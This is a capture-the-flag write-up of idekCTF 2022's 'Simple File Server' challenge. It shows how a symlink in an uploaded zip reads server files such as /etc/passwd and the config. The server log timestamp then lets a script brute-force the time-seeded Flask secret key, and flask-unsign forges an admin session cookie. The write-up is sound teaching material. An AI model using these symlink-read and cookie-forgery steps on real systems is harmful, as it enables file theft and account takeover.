

Simple File Server was a medium difficulty web challenge from idekCTF 2022. We abuse an symbolic link within a zip file to achieve arbitrary file read. This allows reading flask configuration files, which in combination with server initialisation time from web server logs can be used to determine the flask secret key. This can then be used to forge a flask session cookie that gives access to the flag endpoint.

---

The challenge included a fairly simple web application. There are both login and register options. We register a user `guest:guest` and continue. We are now presented with a file upload functionality.


{:.glightbox}

We see we can upload a zip file and it will be automatically extracted. Let's look at the code for the endpoint.

```python
...

@app.route("/upload", methods=["GET", "POST"])
def upload():
    if not session.get("uid"):
        return redirect("/login")
    if request.method == "GET":
        return render_template("upload.html")

    if "file" not in request.files:
        flash("You didn't upload a file!", "danger")
        return render_template("upload.html")

    file = request.files["file"]
    uuidpath = str(uuid.uuid4())
    filename = f"{DATA_DIR}uploadraw/{uuidpath}.zip"
    file.save(filename)
    subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])
    flash(f'Your unique ID is <a href="/uploads/{uuidpath}">{uuidpath}</a>!', "success")
    logger.info(f"User {session.get('uid')} uploaded file {uuidpath}")
    return redirect("/upload")

...
```

The interesting part is the line `subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])`. It is not possible to use a zip slip style attack here because the `unzip` binary patches it directly. It is however, possible to use symbolic links. How does that work? well if we create a soft link like so:
```
$ ln -s ../../../../../../../etc/passwd symlink.txt
```

And zip it into zip file with the `--symlinks` argument with:

```
$ zip --symlinks test.zip symlink.txt
```

When the file is unzipped on the remote server, the symbolic link will be preserved, allowing us to read any file we know the path of onn the remote server. Because the Dockerfile is included with the challenge we can verify the location of any file we want to read. 

There is a config file with a redacted secret, so let's read that first

```
$ ln -s ../../../../../../../app/config.py symlink.txt
$ zip --symlinks test.zip symlink.txt
```

Upload test.zip and navigate to `/uploads/<uuid>/symlink.txt` and read the remote file.

```python
import random
import os
import time

# SECRET_OFFSET = 0 # On our local copy, this is REDACTED
SECRET_OFFSET = -67198624  # True value from the remote server
random.seed(round((time.time() + SECRET_OFFSET) * 1000))
os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
```

With this, we have one of the two pieces to reverse the value used to seed the random number generator, which would allow us to reverse the flask secret key. We don't know what time the server started is the only problem...

Let's take another look at the top of `app.py`.

```python
import logging
import os
import re
import sqlite3
import subprocess
import uuid
import zipfile

from flask import (Flask, flash, redirect, render_template, request, abort,
                   send_from_directory, session)
from werkzeug.security import check_password_hash, generate_password_hash


app = Flask(__name__)
DATA_DIR = "/tmp/"

# Uploads can only be 2MB in size
app.config['MAX_CONTENT_LENGTH'] = 2 * 1000 * 1000

# Configure logging
LOG_HANDLER = logging.FileHandler(DATA_DIR + 'server.log')
LOG_HANDLER.setFormatter(logging.Formatter(fmt="[{levelname}] [{asctime}] {message}", style='{'))
logger = logging.getLogger("application")
logger.addHandler(LOG_HANDLER)
logger.propagate = False
for handler in logging.root.handlers[:]:
    logging.root.removeHandler(handler)
logging.basicConfig(level=logging.WARNING, format='%(asctime)s %(levelname)s %(name)s %(threadName)s : %(message)s')
logging.getLogger().addHandler(logging.StreamHandler())

...

```

Included in the log format is a timestamp, `asctime`. If there was a log message when the server started we can use that to get a close estimate to the output of `time.time()`, and we can bruteforce around it to find the exact value.

We retrieve `/tmp/server.log` via the same method as before and find the timestamp `2023-01-14 19:57:21 +0000`. We use an online epoch converter and find the corresponding timestamp to be 1673726220. With the missing information now obtained we can start reversing the seed. The only problem left is that the timestamp we get is only accurate to the seconds precision, but `time.time()` has a millisecond component, and the `* 1000` means that the first three decimal places become significant. For example:
```
# we have
1673726220
# which is equivalent to
1673726220.0000000
# but the true timestamp is 
1673726220.ABCDEFG
# so after the * 1000 we have
1673726220ABC.DEFG
# after round
1673726220ABC
```

So we need to bruteforce the last three digits, let's go two seconds both directions to account for any discrepancies between the logs and `time.time()`.

```python
import random
import os
import time

SECRET_OFFSET = -67198624


#os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")

timestamp = 1673726220

timestamp =  timestamp + SECRET_OFFSET

start = (timestamp - 2) * 1000
end = (timestamp + 2) * 1000


with open("keys", 'w') as fh:
    for i in range(start, end):
        random.seed(i)
        fh.write("".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "") + '\n')

```

With the file of possible keys, we can now bruteforce our flask session with the utility `flask-unsign`.

```
$ flask-unsign -u -c 'eyJhZG1pbiI6ZmFsc2UsInVpZCI6ImFkbWluIn0.Y8MJOg.amfLkMNcyPV_uJ1Wjt65_4S2Ago' --wordlist keys --threads 10 --no-literal-eval  
[*] Session decodes to: {'admin': False, 'uid': 'guest'} 
[*] Starting brute-forcer with 10 threads.. 
[+] Found secret key after 1792 attemptseced99571547 
b'950b781d9bc7f04e697db73c1b3e5496'
```

Now we sign it with:

```
$ flask-unsign -s -c '{'admin': True, 'uid': 'admin'}' --secret '950b781d9bc7f04e697db73c1b3e5496'
```

Update the session cookie in your browser, and browse to `/flag` to get the flag.

idek{s1mpl3_expl01t_s3rver}